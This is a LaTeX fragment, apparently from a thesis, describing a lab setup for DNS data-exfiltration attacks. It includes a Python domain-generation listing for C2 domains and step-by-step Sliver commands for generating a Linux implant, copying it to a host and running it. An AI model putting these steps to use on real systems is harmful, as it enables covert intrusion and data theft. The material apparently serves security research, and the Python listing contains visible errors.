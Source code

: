 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\vspace{-0.5em}
{\footnotesize
\begin{lstlisting}[language=Python, 
    caption={Domain Generation Algorithm}, 
    label={lst:clone-redirect},
    aboveskip=0.5em,
    belowskip=0.5em
]
% generate number of malicious C2 server domains and add create zones, child zones NS links inside DNS server

# all the attacker tools to use 
% this attacker tool also generate the third label of C2 domain
exfil_tools: List[str] = ['dnscat', 'sliver', 'iodine', 'det']

# get the random TLD
def gen_randomTLD() -> str:
    return random.choice(['live','com','de','io','se','bld', 'val', 'def', 'head'])

def DGA_MASS_DOMAINS_GEN(args):
        r = RandomWord()
        dga = gen_c2_exfil_domains(tldDomains=[base64.b64encode(r.word()).lower() + "." + gen_randomTLD()
                                       for _ in range(1 << int(args.count))], 
                            c2_tool_domains=exfil_tools)
        ff = open(DGA_FILE, 'w', encoding='utf-8')
        ff.write('\n'.join(dga))

        append_zone_data_in_zoneFiles(dga) # create zone and child zones
        gen_exil_forward_zones_file(dga) # generate the forward zone file 
\end{lstlisting}
}
\vspace{-1em}

\subsection{Instructions to implement DNS Data exfiltration attacks on data plane}
The tools focused currently and fully evaulated are higest rated C2 matrix tools supporting most advanced forms of C2 comamnds and other types of data exfiltration. Each tool and attack carrying steps are explained below. Note in order to select a domain as explained before ocne the DGA algrithma dn vast number of domains are generated resolving to the attacker node IP, any domain from can be selected to start using these tools. 
\subsubsection{Sliver}
\begin{lstlisting}[language=bash,caption={Steps to deploy Sliver implant},label={lst:sliver-steps}]
# 1. Start Sliver C2 server on attacker node
sliver-server

# 2. Connect to Sliver client console from same node
sliver-client

# 3. Start the DNS Server job 
job -d <c2_domain_ip> 

# 3. Generate implant payload (e.g., ELF for Linux)
generate --os linux --arch amd64 --output /tmp/implant --save

# 4. Transfer implant to any host in data plane
scp /tmp/implant user@remote:/tmp/

# 5. Run the implant on the remote host
chmod +x /tmp/implant.elf
/tmp/implant

# 6. Confirm session established in Sliver console
sessions
\end{lstlisting}
\end{document}
